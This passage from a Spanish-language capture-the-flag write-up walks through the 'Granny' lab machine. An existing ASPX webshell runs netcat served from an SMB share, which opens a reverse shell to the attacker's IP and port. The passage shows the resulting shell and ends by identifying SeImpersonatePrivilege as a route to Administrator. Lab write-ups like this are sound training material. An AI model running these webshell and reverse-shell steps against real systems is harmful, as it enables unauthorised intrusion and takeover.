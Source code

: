 Ahora al acceder a `http://10.129.95.234/cmdasp.aspx` vemos que tenemos una webshell operativa

![](/assets/img/Granny/image_3.png)
## Intrusión

Vamos a ponernos en `escucha` por el `puerto 9993` con `netcat`

```
# nc -nlvp 9993
```

`Copiamos` el `binario` de `netcat` en nuestro `directorio` actual el cual ya nos viene con `permisos de ejecución`

```
# cp /usr/share/seclists/Web-Shells/FuzzDB/nc.exe .
```

Nos montamos un `servidor smb` en nuestra máquina

```
# impacket-smbserver smbFolder $(pwd) -smb2support
```

Ejecutamos este payload en `http://10.129.95.234/cmdasp.aspx`

```
\\10.10.16.16\smbFolder\nc.exe -e cmd 10.10.16.16 9993
```

Obtenemos nuestra `shell`

```
# nc -nlvp 9993 
listening on [any] 9993 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.95.234] 1082
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.

c:\windows\system32\inetsrv>
```
## Privilege escalation

`Listamos privilegios` de nuestro usuario y nos damos cuenta de que tenemos el privilegio `SeImpersonatePrivilege` por lo tanto podemos convertirnos en `Administrator` [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#seimpersonateprivilege)

```
c:\windows\system32\inetsrv>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeAuditPrivilege              Generate security audits                  Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
```
